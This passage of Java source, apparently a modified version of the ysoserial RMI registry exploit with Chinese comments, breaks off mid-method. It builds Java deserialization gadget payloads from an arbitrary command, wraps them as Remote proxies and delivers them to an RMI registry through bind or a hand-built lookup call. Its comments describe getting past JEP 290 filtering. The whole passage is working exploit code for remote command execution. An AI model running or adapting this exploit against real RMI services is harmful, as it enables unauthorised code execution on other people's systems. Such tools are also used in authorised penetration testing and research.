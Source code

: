 ```java

    // ensure payload doesn't detonate during construction or deserialization
    exploit(registry, RMIMethod, payloadClass, command);
}

public static void exploit(final Registry registry, final String RMIMethod,
        final Class<? extends ObjectPayload> payloadClass,
        final String command) throws Exception {
    new ExecCheckingSecurityManager().callWrapped(new Callable<Void>(){public Void call() throws Exception {
        ObjectPayload payloadObj = payloadClass.newInstance();
        Object payload = payloadObj.getObject(command);
        String name = "pwned" + System.nanoTime();
        Remote remote;
        if (payloadClass.isAssignableFrom(JRMPClient.class)){
            // 在JEP290以后，过滤了AnnationInvacationHandler
            // 利用payloads.JRMPClient时直接讲恶意对象转为Remote
            remote = (Remote) payload;
        }else {
            // 调用AnnationInvacationHandler封装了恶意对象，在动态代理转换为Remote
            remote = Gadgets.createMemoitizedProxy(Gadgets.createMap(name, payload), Remote.class);
        }
        // 可以通过lookup攻击
        if (RMIMethod.equals("bind")){
            try {
                registry.bind(name, remote);
            } catch (Throwable e) {
                e.printStackTrace();
            }
        } else if (RMIMethod.equals("lookup")){
            try {
                lookup(registry,remote);
            } catch (Throwable e) {
                e.printStackTrace();
            }
        } else {
            throw new Exception(RMIMethod + " not supported");
        }

        Utils.releasePayload(payloadObj, payload);
        return null;
    }});
}
// 新增lookup方法
public static void lookup(Registry registry,Object var1) throws AccessException, NotBoundException, RemoteException {
    try {

        Operation[] operations = new Operation[]{new Operation("void bind(java.lang.String, java.rmi.Remote)"), new Operation("java.lang.String list()[]"), new Operation("java.rmi.Remote lookup(java.lang.String)"), new Operation("void rebind(java.lang.String, java.rmi.Remote)"), new Operation("void unbind(java.lang.String)")};

        RemoteRef ref = (RemoteRef) Reflections.getFieldValue(registry,"ref");
        StreamRemoteCall var2 = (StreamRemoteCall)ref.newCall((java.rmi.server.RemoteObject)registry, operations, 2, 4905912898345647071L);

        try {
            ObjectOutput var3 = var2.getOutputStream();
            var3.writeObject(var1);
        } catch (IOException var15) {
            throw new MarshalException("error marshalling arguments", var15);
        }
```